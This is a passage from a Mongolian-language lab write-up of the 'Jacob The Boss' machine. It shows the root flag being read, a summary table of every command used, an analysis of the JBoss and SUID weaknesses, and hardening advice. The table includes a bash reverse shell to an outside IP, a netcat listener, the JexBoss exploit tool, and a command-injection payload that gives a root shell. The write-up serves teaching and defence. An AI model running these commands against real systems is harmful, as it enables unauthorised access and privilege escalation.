```bash
whoami
```

**Үр дүн:**

```
root
```

Энэ нь хэрэглэгчийн эрх **jacob**-оос **root** болж амжилттай ахисныг баталсан. Ийнхүү лабораторийн машины **privilege escalation** буюу эрх ахиулах үе шат амжилттай дууссан.

---

## 12. ROOT FLAG ФАЙЛЫГ УНШИХ

Root эрх авсны дараа системийн root хэрэглэгчийн үндсэн директор руу шилжсэн:

```bash
cd /root
```

Энэ команд нь root хэрэглэгчийн үндсэн хавтас руу шилжинэ.

Дараа нь тухайн хавтас дахь файлуудыг дэлгэрэнгүй мэдээлэлтэй харуулахын тулд:

```bash
ls -la
```

командыг ашигласан.

**Үр дүнд `root.txt` файл байгааг илрүүлсэн:**

```
-rw-------. 1 root root 33 Jul 31 2020 root.txt
```

Энэ мэдээллээс харахад `root.txt` файл нь root хэрэглэгч болон root бүлгийн эзэмшилд байсан бөгөөд зөвхөн root хэрэглэгч унших эрхтэй байв.

Файлын агуулгыг уншихын тулд:

```bash
cat root.txt
```

командыг ажиллуулсан.

**Үр дүн:**

```
29a5641eaa0c01abe5749608c8232806
```


---
Ингэснээр **Root Flag**-ийг амжилттай олж, **Jacob The Boss** лабораторийн машиныг бүрэн эзэлсэн.



---

---

## 13. АШИГЛАСАН ҮНДСЭН КОМАНДУУДЫН НЭГДСЭН ЖАГСААЛТ

Лабораторийн ажлын явцад ашигласан гол командуудыг дараах хүснэгтэд нэгтгэв:

| № | Команд | Зориулалт |
|---|--------|-----------|
| 1 | `ping -c 2 10.112.155.51` | Зорилтот сервертэй холболт шалгах |
| 2 | `rustscan -a 10.112.155.51 -- -sC -sV -oN nmap_initial.txt` | Нээлттэй порт болон үйлчилгээ илрүүлэх |
| 3 | `cat nmap_initial.txt` | Сканнерын үр дүн харах |
| 4 | `git clone https://github.com/joaomatosf/jexboss.git` | JexBoss хэрэгслийг татах |
| 5 | `cd jexboss` | JexBoss хавтас руу орох |
| 6 | `ls -la` | Хавтасны файлуудыг шалгах |
| 7 | `python3 jexboss.py -u http://10.112.155.51:8080/` | JBoss эмзэг байдлыг шалгах |
| 8 | `ip -4 addr show tun0` | Kali VPN IP хаяг шалгах |
| 9 | `rlwrap nc -lvnp 4444` | Reverse Shell холболт хүлээн авах |
| 10 | `/bin/bash -i > /dev/tcp/192.168.196.54/4444 0>&1 2>&1` | Reverse Shell холболт үүсгэх |
| 11 | `find / -name user.txt 2>/dev/null` | User Flag файл хайх |
| 12 | `cat /home/jacob/user.txt` | User Flag унших |
| 13 | `sudo -l` | Sudo эрх шалгах |
| 14 | `find / -perm -u=s 2>/dev/null` | SUID тохиргоотой файлууд хайх |
| 15 | `/usr/bin/pingsys '127.0.0.1; /bin/bash'` | Pingsys эмзэг байдлыг ашиглан root shell авах |
| 16 | `whoami` | Одоогийн хэрэглэгчийн эрх шалгах |
| 17 | `cd /root` | Root хэрэглэгчийн үндсэн хавтас руу орох |
| 18 | `ls -la` | Root хавтас дахь файлуудыг харах |
| 19 | `cat root.txt` | Root Flag унших |

---

## 14. ИЛРҮҮЛСЭН ЭМЗЭГ БАЙДАЛ БА АЮУЛГҮЙ БАЙДЛЫН ЭРСДЭЛ

### 14.1. JBoss JMX Console-ийн эмзэг байдал

Зорилтот сервер дээр JBoss-ийн **jmx-console**, **web-console**, **JMXInvokerServlet** компонентууд эмзэг гэж илэрсэн. Эдгээр удирдлагын болон үйлчилгээний компонентууд зөвшөөрөлгүй хэрэглэгчид хандах боломжтой, эсвэл зохих хамгаалалтгүй байвал халдагч сервер дээр дурын команд ажиллуулах боломж олж авах эрсдэлтэй.

Энэхүү лабораторид JexBoss ашиглан JMX Console-ийн эмзэг байдлыг ашигласнаар сервер дээр команд ажиллуулах shell үүсгэсэн. Энэ нь веб серверийн буруу тохиргоо болон эмзэг компонент нь бүхэл серверийн аюулгүй байдалд ноцтой нөлөөлж болохыг харуулсан.

### 14.2. Reverse Shell-ийн эрсдэл

Reverse Shell нь зорилтот системээс гаднын хост руу буцах холболт үүсгэж, алсын хэрэглэгчид команд ажиллуулах боломж олгодог. Хэрэв сервер дээрх эмзэг байдлыг халдагч ашиглавал энэ төрлийн холболтоор системд зөвшөөрөлгүй хандалт авах эрсдэлтэй.

Иймээс серверийн гадагш чиглэсэн сүлжээний холболтыг хянах, веб серверийн эрхийг хязгаарлах, сүлжээний галт ханын дүрмийг зөв тохируулах шаардлагатай.

### 14.3. SUID болон Command Injection эмзэг байдал

SUID тохиргоотой програм нь өөрийн эзэмшигчийн эрхээр ажилладаг. Хэрэв root эзэмшигчтэй SUID програм хэрэглэгчийн оролтыг аюулгүй шалгахгүйгээр системийн команд ажиллуулдаг бол энгийн хэрэглэгчийн эрхээс root эрх рүү шилжих боломж үүсч болно.

Энэхүү лабораторид **/usr/bin/pingsys** файл ийм эрсдэлийг харуулсан. Програмын оролтын боловсруулалтын алдааг ашигласнаар **jacob** хэрэглэгч root эрхтэй Bash shell нээх боломжтой болсон.

---

## 15. АЮУЛГҮЙ БАЙДЛЫН САЙЖРУУЛАЛТ, ХАМГААЛАЛТЫН ЗӨВЛӨМЖ

Лабораторийн үр дүнгээс үндэслэн дараах хамгаалалтын арга хэмжээг хэрэгжүүлэх шаардлагатай гэж үзэв:

1. **JBoss серверийг шинэчлэх** – Ашиглаж буй JBoss хувилбарыг үйлдвэрлэгчийн аюулгүй байдлын шинэчлэлээр тогтмол шинэчилж, хуучирсан болон дэмжлэггүй хувилбар ашиглахаас зайлсхийх.

2. **Удирдлагын интерфэйсийг хамгаалах** – JMX Console болон Web Console зэрэг удирдлагын интерфэйсүүдийг зөвхөн итгэмжлэгдсэн IP хаягаас ашиглах боломжтой болгох.